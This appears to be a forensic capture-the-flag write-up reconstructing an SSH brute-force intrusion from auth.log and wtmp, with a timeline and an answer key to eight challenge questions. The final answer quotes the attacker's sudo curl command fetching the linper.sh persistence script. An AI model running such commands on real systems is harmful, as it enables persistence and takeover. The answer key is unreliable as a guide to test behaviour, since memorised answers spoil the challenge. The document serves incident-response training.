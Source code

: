 ### Timeline

Putting all that together makes the following timeline:

| Time (UTC) | Description | Reference |
| --- | --- | --- |
| 06:18:01 | First entry in `auth.log`. | `auth.log` |
| 06:31:33 | SSH brute force start | `auth.log` |
| 06:31:40 | root SSH login successful | `auth.log` |
| 06:31:42 | SSH brute force stop | `auth.log` |
| 06:32:44 | SSH login as root | `auth.log` |
| 06:32:45 | Terminal session starts as root | `wtmp` |
| 06:34:18 | cyberjunkie user and group created | `auth.log` |
| 06:35:15 | cyberjunkie added to sudo group | `auth.log` |
| 06:37:24 | root session disconnects | `auth.log` |
| 06:37:34 | SSH login as cyberjunkie | `auth.log` |
| 06:37:35 | Terminal session starts as cyberjunkie | `wtmp` |
| 06:37:57 | cyberjunkie accesses `/etc/shadow` | `auth.log` |
| 06:39:38 | cyberjunkie downloads `linper.sh` | `auth.log` |
| 06:41:01 | Last entry in `auth.log` | `auth.log` |

### Question Answers
1. Analyzing the auth.log, can you identify the IP address used by the attacker to carry out a brute force attack?
   65.2.161.68
2. The brute force attempts were successful, and the attacker gained access to an account on the server. What is the username of this account?

   root
3. Can you identify the timestamp when the attacker manually logged in to the server to carry out their objectives?

   2024-03-06 06:32:45
4. SSH login sessions are tracked and assigned a session number upon login. What is the session number assigned to the attacker’s session for the user account from Question 2?

   37
5. The attacker added a new user as part of their persistence strategy on the server and gave this new user account higher privileges. What is the name of this account?

   cyberjunkie
6. What is the MITRE ATT&CK sub-technique ID used for persistence?

   T1136.001
7. How long did the attacker’s first SSH session last based on the previously confirmed authentication time and session ending within the auth.log? (seconds)

   279
8. The attacker logged into their backdoor account and utilized their higher privileges to download a script. What is the full command executed using sudo?

   /usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh